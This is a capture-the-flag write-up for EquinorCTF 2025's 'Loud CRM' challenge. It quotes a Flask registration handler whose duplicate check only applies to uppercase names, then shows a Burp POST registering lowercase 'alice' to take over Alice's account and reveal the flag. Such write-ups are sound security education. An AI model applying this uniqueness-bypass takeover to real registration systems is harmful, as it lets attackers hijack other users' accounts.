

# Loud CRM - EquinorCTF 2025 

### ===== Challenge =====
- Our new CRM platform SHOUTS EVERYTHING because the developer thought it would "improve readability." Now every time I log in, it feels like someone is SCREAMING IN MY HEAD. Alice from accounting has the flag. Maybe you can make the system stop yelling long enough to get in?

### ===== Analysis =====
- By the challenge description, we know we are supposed to gain access to Alice's account

- First I start by registering a user, and notice that in the payload sent in the POST to `/register` **my username was automatically capitalized**:



``` 
username=VARANDA&display_name=varanda&password=pass
```

- I start by inspecting the /register endpoint:


``` python
@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        username = request.form.get("username", "").strip()
        display_name = request.form.get("display_name", "").strip()
        password = request.form.get("password", "")

        if not username or not display_name or not password:
            flash("Complete every field before continuing.")
            return render_template("register.html", form=request.form)

        if username == username.upper() and auth.user_exists_upper(username):
            flash("That handle already exists. Choose a different one.")
            return render_template("register.html", form=request.form)

        auth.register_user(username, display_name, password)
        flash("Registration complete. Sign in with your new credentials.")
        return redirect(url_for("login"))

    return render_template("register.html", form={})
```

- I see the issue right away! When I create a user, in order to see if that username already exists, the server checks if the **provided username is equal to it's capitalized version**. If I **provide a lower case username**, the username will be considered unique. We can use this to create an account as if with the username Alice, and get our flag!

### ===== Exploitation =====

- I change the username to lowercase in Burp:

``` http
POST /register HTTP/2
Host: synapseburnout-84a8ce4c-loudcrm.ept.gg
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://synapseburnout-84a8ce4c-loudcrm.ept.gg
Referer: https://synapseburnout-84a8ce4c-loudcrm.ept.gg/register
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=alice&display_name=pwned&password=pass
```

- Our user is successfully created!
- Then we just need to login with alice:pass and we get the flag!


- **Flag: EPT{LOUD_HANDLE_OVERRIDE}**

team: *synapse_burnout*
writeup by *varanda* - 10/11/2025